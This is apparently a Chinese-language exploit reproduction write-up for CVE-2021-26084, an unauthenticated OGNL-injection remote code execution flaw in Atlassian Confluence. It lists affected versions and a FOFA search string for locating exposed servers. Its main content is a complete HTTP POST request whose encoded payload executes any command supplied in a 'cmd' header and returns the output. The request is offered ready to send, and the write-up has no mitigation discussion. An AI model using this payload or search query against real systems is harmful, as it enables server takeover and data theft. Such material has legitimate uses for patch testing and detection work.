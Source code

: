 # Atlassian Confluence doenterpagevariables.action 远程命令执行漏洞 CVE-2021-26084

## 漏洞描述

Atlassian Confluence 存在远程代码执行漏洞，攻击者在无需认证，即可构造恶意请求，造成OGNL表达式注入，从而执行任意代码，控制服务器。

## 漏洞影响

```
Atlassian Atlassian Confluence < 7.4.11
Atlassian Atlassian Confluence < 7.11.6
Atlassian Atlassian Confluence < 7.13.0
Atlassian Atlassian Confluence < 6.13.23
Atlassian Atlassian Confluence < 7.12.5
```

## FOFA

```
app="ATLASSIAN-Confluence"
```

## 漏洞复现

登录页面

![image-20220524142010885](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241420961.png)

发送请求包

```
![1](C:/Users/47236/Desktop/1.png)POST /pages/doenterpagevariables.action HTTP/1.1
Host: 
Connection: keep-alive
Content-Length: 599
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="92", " Not A;Brand";v="99", "Google Chrome";v="92"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: JSESSIONID=3E654B6F4ADDF325CA2203596BD0115C
cmd: id
    
queryString=%5Cu0027%2B%23%7B%5Cu0022%5Cu0022%5B%5Cu0022class%5Cu0022%5D.forName%28%5Cu0022javax.script.ScriptEngineManager%5Cu0022%29.newInstance%28%29.getEngineByName%28%5Cu0022js%5Cu0022%29.eval%28%5Cu0022var+c%3Dcom.atlassian.core.filters.ServletContextThreadLocal.getRequest%28%29.getHeader%28%5Cu0027cmd%5Cu0027%29%3Bvar+x%3Djava.lang.Runtime.getRuntime%28%29.exec%28c%29%3Bvar+out%3Dcom.atlassian.core.filters.ServletContextThreadLocal.getResponse%28%29.getOutputStream%28%29%3Borg.apache.commons.io.IOUtils.copy%28x.getInputStream%28%29%2Cout%29%3Bout.flush%28%29%3B%5Cu0022%29%7D%2B%5Cu0027
```

![]()![1](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241420313.png)